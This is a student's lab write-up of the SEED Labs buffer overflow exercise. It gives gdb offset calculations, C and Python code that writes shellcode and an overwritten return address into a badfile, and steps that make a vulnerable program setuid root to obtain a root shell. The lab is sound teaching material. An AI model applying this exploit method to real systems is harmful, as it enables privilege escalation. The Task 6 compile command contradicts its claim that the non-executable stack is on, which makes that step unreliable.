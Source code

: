 ```yaml
---
title: Buffer Overflow Vulnerability Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Buffer_Overflow.pdf

# Task 1

The `\bin\zsh` is called. I enter a new shell.

# Task 2

Use default `DBUF_SIZE` (i.e. 24)

## Find the address to attack

```sh
$ gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c
$ gdb stack_gdb
gdb-peda$ p $ebp
$1 = (void *) 0xbfffeb08
gdb-peda$ p &buffer
$2 = (char (*)[24]) 0xbfffeae8
gdb-peda$ p/d 0xbfffeb08-0xbfffeae8
$3 = 32
```

It shows that the value of the frame pointer is `'0xbfffeb08'`. So the return address is in `0xbfffeb08 + 4` and the first address we can jump to is `0xbfffeb08 + 8`. The distance between `ebp` and the buffer's starting address is 32. Added by 4 bytes stored the return address above, the distance is 36.

## C version
So use the [`exploit.c`](./exploit.c) to compose the `badfile`. The critical code part as below:

```c
int start = 517 - sizeof(shellcode);
strcpy(buffer + start, shellcode);
// set the return address to the location of the malicious command in buffer
int ret = (0xbfffeb08 + start);
strcpy(buffer + 36, (char *)&ret);
```

Then compile and execute all those files as the order of:
```sh
$ gcc -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack
```
Then you can see a new root bash start with `#`.

![The root bash](./exploit.png)

## Python version

~~There may be something wrong with the Python code both in the textbook and the instruction's template. I believe that the return address should be modified with `ret + offset of the malicious command` instead of just `ret`. And I verified it in our lab.~~

```sh
$ python3 exploit.py
$ ./stack
#
```

Full code available in [`exploit.py`](./exploit.py). Here shows the critical part:

```{.python}
ret = 0xbfffeb08 # replace 0xAABBCCDD with the correct value
offset = 36 # replace 0 with the correct value
# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret + start).to_bytes(4, byteorder='little')
```




# Task 3

- **Without `setuid(0)`**: start a new bash (under user `seed` and start with `$`)
- **With `setuid(0)`**: start a new bash (under user `root` and start with `#`)

Yes, It still works. Because in the additional shell code, the function `setuid(0)` is called to get root priviledge.

# Task 4

![](./brute_force.png)

# Task 5

## Turn on the StackGuard Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
*** stack smashing detected ***: ./stack terminated
Aborted
```

# Task 6

## Turn on the Non-executable Stack Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
Segmentation fault
```

The buffer overflow does occur. But the non-executable stack protection prevents the crash program from running the shellcode.








